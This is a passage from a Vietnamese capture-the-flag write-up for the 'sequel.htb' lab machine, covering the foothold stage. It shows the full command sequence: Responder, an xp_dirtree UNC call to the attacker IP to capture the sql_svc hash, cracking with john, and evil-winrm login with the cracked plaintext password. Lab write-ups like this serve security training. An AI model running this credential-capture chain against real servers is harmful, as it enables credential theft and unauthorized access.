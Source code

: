 ## Foothold

Sử dụng thông tin xác thực đã xác định, có thể kết nối với máy chủ MSSQL. Khi tìm kiếm xung quanh, không thể tìm thấy bất cứ điều gì thú vị. Tuy nhiên, có thể thử buộc dịch vụ SQL xác thực với máy local và capture hash. Nếu dịch vụ SQL đang chạy dưới dạng tài khoản user, thì khả năng cao là hash đã capture sẽ có thể crack được.

Trước hết, thiết lập `Responder`.

```
responder -I tun0 -v
```

Sau đó, yêu cầu SQL list các file trên máy local bằng đường dẫn UNC (Universal Naming Convention).

```
EXEC MASTER.sys.xp_dirtree '\\10.10.14.14\test', 1, 1
```

Nhận được hash trên responder cho user `sql_svc`.

![alt text](image-5.png)

May mắn thay, `sql_svc` có vẻ là một tài khoản normal user. Vì vậy, copy hash đã capture vào một file có tên là `hash` và thử crack nó bằng `john`.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![alt text](image-6.png)

Hash đã crack thành công và có mật khẩu dạng plaintext `REGGIE1234ronnie` cho user `sql_svc`.

Thử xác thực với tư cách là user `sql_svc` qua WinRM. Sử dụng evil-winrm.

```
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```

![alt text](image-7.png)
